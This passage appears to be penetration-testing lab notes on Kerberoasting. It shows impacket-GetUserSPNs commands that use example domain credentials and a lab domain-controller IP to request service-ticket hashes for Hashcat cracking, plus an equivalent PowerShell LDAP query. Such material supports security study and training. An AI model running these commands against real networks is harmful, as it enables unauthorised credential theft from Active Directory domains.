 ```
> SELECT HOST_NAME() AS HostName, SUSER_NAME() LoggedInUser


```






























### Linux
Use `impacket-GetUserSPNs` with the IP of the domain controller as the argument for `-dc-ip`.

Since our Kali machine is not joined to the domain, we also have to provide domain user credentials to obtain the TGS-REP hash.

As before, we can use `-request` to obtain the TGS and output them in a compatible format for Hashcat.


```
sudo impacket-GetUserSPNs htb.local/asmith:passw0rd
sudo impacket-GetUserSPNs htb.local/asmith:passw0rd -request

sudo impacket-GetUserSPNs -request -dc-ip 192.168.50.70 corp.com/pete
```

NOTE: if `impacket-GetUserSPNs` throws the error "KRB_AP_ERR_SKEW(Clock skew too great)" we need to synchronize the time of the Kali machine with the domain controller with `ntpdate` or `rdate`.


This is basically what the `impacket-GetUserSPNs` searchs for:

```
Get-ADUser -ldapfilter "(serviceprincipalname=*)" -Properties "serviceprincipalname"
```

This command searches for all users in Active Directory who have a servicePrincipalName attribute set and returns their user objects, including the servicePrincipalName property.








